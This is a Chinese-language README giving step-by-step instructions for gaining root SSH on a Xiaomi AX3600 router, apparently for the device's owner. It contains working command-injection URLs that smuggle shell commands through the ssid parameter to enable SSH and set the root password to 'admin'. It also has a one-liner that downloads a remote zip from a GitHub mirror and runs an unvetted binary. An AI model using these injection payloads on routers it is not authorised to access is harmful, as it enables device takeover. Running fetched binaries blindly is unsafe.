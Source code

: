 ## AX3600_老版本SSH步骤：
> 需降级到1.0.17版本

1.替换&lt;STOK&gt; 打开  
```
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20nvram%20set%20ssh_en%3D1%3B%20nvram%20commit%3B%20sed%20-i%20's%2Fchannel%3D.*%2Fchannel%3D%5C%22debug%5C%22%2Fg'%20%2Fetc%2Finit.d%2Fdropbear%3B%20%2Fetc%2Finit.d%2Fdropbear%20start%3B
```

2.替换&lt;STOK&gt; 打开  
```
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=Xiaomi&user_id=longdike&ssid=-h%3B%20echo%20-e%20'admin%5Cnadmin'%20%7C%20passwd%20root%3B
```

3.执行命令备份mtd9分区  
```
mkdir /tmp/syslogbackup/
```
```
dd if=/dev/mtd9 of=/tmp/syslogbackup/mtd9
```
浏览器请求该地址下载备份：
```
http://192.168.31.1/backup/log/mtd9
```
## AX3600_固化步骤：
```
sed -i 's/18\.06-SNAPSHOT/18.06.0/g' /etc/opkg/distfeeds.conf
```
```
opkg install --force-overwrite wget unzip -d ram && /tmp/usr/bin/wget https://fastly.jsdelivr.net/gh/mphin/Mi_Route_Tool@main/AX3600/mitool.zip -O /data/mitool.zip && cd /data/ && /tmp/usr/bin/unzip /data/mitool.zip && /data/mitool_arm64 unlock
```
重启后执行  
```
/data/mitool_arm64 hack
```
会自动固化ssh和计算ssh默认密码并再次重启，复制password:后面的密码保存备用即可  
完毕。  
## AX3600_升级丢失ssh步骤：
```
telnet 192.168.31.1
```
```
sed -i 's/channel=.*/channel="debug"/g' /etc/init.d/dropbear
```
```
/etc/init.d/dropbear start
```
## AX3600_安装sftp：
> 如报错尝试执行该命令sed -i 's/18\.06-SNAPSHOT/18.06.0/g' /etc/opkg/distfeeds.conf
```
opkg update
opkg install openssh-sftp-server
```
## 声明

本项目中的所有步骤、文件以及相关信息均搜集自互联网，旨在提供学习和参考之用。我们尊重并遵循知识共享的原则，未经过原创作者许可的情况下，不会用于商业用途。如果您是原始内容的作者，且不希望您的作品出现在此项目中，请联系我们，我们将立即删除相关内容。我们感谢互联网上无数开放共享的资源，为我们提供了学习的机会。
